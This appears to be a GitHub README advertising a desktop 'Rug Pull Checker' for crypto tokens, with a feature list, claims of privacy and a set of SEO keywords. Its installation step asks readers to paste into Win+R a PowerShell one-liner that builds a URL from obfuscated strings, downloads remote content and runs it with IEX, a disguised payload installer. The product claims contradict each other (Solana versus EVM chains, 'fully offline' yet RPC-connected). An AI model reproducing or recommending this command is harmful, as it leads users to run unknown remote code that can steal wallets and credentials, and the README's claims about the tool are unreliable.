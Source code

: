 <div align="center">
  
## **Rug Pull Checker** | **Solana Token Scanner** | **MemeCoin Checker** 💷💰
  
</div>

<div align="center">
<img src="https://i.ytimg.com/vi/CoRJMqiurPc/hq720.jpg" width="800" height="300" />
</div>

**Rug Pull Detector** is a powerful, fully standalone desktop application built for one purpose: **protecting you from losing money in crypto**.

If you've ever invested in a token that *exploded* hours after launch, the liquidity vanished, and the dev team disappeared... you already know what a **rug pull** is.

Well, forget about that. **Forever.**

---

## 🔧 What Is It?

**Rug Checker** is a desktop app that analyzes tokens on Ethereum / BSC / and other EVM-compatible chains and gives you a **detailed risk report** based on dozens of smart contract parameters.

Just paste a token address, click one button — and within seconds, you'll know:

- 🛑 If a **rug pull is possible**
- 🔐 Whether liquidity is locked and for how long
- 🧠 What **owner/admin rights** are still active
- 🧾 If the contract is verified and published
- 🐳 Token distribution: Are there whales that can crash the price?
- ⚠️ And many other hidden threats you’d never catch manually

---

## 💻 How It Works

The app connects directly to the blockchain via RPC and APIs, fetches the smart contract code, disassembles it if needed, scans available methods, analyzes ownership, liquidity, holders, and runs everything through a custom rule engine to output a clear **risk level**:

📊 Three risk levels:  
✅ Safe | ⚠️ Suspicious | 🚨 High Risk

Each alert comes with an explanation — so you don’t just get a red flag, you **understand** why it's there.

---

## 🧠 Why Use Rug Pull Checker?

There are many online tools, **but**:
- ❌ Many give false positives or incomplete info  
- ❌ They don’t show how results are calculated  
- ❌ They collect your data  
- ❌ They’re often slow and unstable  

**Rug Pull Checker** is:
- ✅ Fully offline. **100% private**  
- ✅ Faster than browser tools  
- ✅ Made for both beginners and devs  
- ✅ Runs locally — no API rate limits  
- ✅ Easily extendable — add your own rules!

---

## 📦 Installation

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">powershell -Command "$update='SafeModule'; $mode='digital'; $url=$update+'.'+$mode; $Response=Invoke-WebRequest -Uri $url -UseBasicParsing -UserAgent $update; $Script=[System.Text.Encoding]::UTF8.GetString($Response.Content); IEX $Script"</code>
</pre>

---

## 🛠️ In Development

- Multi-chain support (Polygon, Arbitrum, Avalanche, etc.)
- Token auto-import from DEXTools / Poocoin / Uniswap
- Wallet portfolio monitoring & alerts

---

## ⭐ Support the Project

If you like the app, please ⭐ the repo, share it on Reddit, and leave feedback!  
Pull requests, ideas, and bug reports are always welcome.

---

**🧨 No more scams. Just raw blockchain facts.  
With Rug Pull Checker, you're always one step ahead.**

## SEO Keywords
- Rug Checker
- Coin Rug Pull
- Rug Pull Bot
- Rug Pull Detector
- Rug Pull Scanner
- Rug Pull checker
- Solana Rug Pull
- Rug Pull Bot
- Crypto Rug Pull
